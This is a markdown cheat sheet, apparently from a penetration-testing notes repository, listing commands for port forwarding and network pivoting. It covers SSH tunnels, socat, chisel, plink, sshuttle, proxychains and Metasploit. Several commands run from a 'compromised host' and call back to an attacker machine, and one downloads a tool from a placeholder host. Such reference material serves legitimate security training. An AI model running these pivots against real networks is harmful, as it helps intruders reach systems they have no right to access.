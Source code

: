 # Port Fowarding and Proxying
## Port Fowarding
### SSH Tunneling/Local Port Forwarding  
```
ssh user@<ip> -p port -L 8001:127.0.0.1:8080 -fN
```

### SSH Remote Port Forwarding
```
ssh -R 5555:127.0.0.1:5555 -p2222 <user>@<ip>
```

### Socat - Port Forward
```
powershell -c "wget http://ip:port/socat -Outfile socat"  
./socat.exe TCP-LISTEN:8002,fork,reuseaddr TCP:192.168.0.20:8080
```

### chisel  - Remote Port Forward 
-> Your machine  
```
./chisel server -p LISTEN_PORT --reverse &
```

-> Compromised Host
```
./chisel client <ATTACKING_IP>:<LISTEN_PORT> R:<LOCAL_PORT>:<TARGET_IP>:<TARGET_PORT> &
```

### Chisel - Local Port Forward
-> Compromised Host  
```
./chisel server -p <LISTEN_PORT>
```

-> Your Machine  
```
./chisel client <LISTEN_IP>:<LISTEN_PORT> <LOCAL_PORT>:<TARGET_IP>:<TARGET_PORT>
```

### pklink - Remote Port Forward
```
cmd.exe /c echo y | plink.exe -ssh -l <user> -pw <password> -R 192.168.0.20:1234:127.0.0.1:3306 192.168.0.20
```

## Proxying - Network Pivoting
### sshuttle (Unix) - proxying  
```
sshuttle -r user@<ip> --ssh-cmd "ssh -i private_key" 172.16.0.0/24
```

### SSH + Proxychains
edit /etc/proxychains.conf with socks4 127.0.0.1 8080
```
ssh -N -D 127.0.0.1:8080 <user>@<ip> -p 2222
```
  
### chisel  - Reverse Proxy
-> Your Machine  
```
./chisel server -p LISTEN_PORT --reverse &
```
-> Compromised Host  
```
./chisel client <TARGET_IP>:<LISTEN_PORT> <PROXY_PORT>:socks
```

### chisel - Forward Proxy  
-> Compromised Host  
```
./chisel server -p <LISTEN_PORT> --socks5
```
-> Your Machine  
```
./chisel client <TARGET_IP>:<LISTEN_PORT> <PROXY_PORT>:socks
```

### metasploit - proxying 
```
route add <ip>/24 1
route print
use auxiliary/server/socks_proxy
run
```
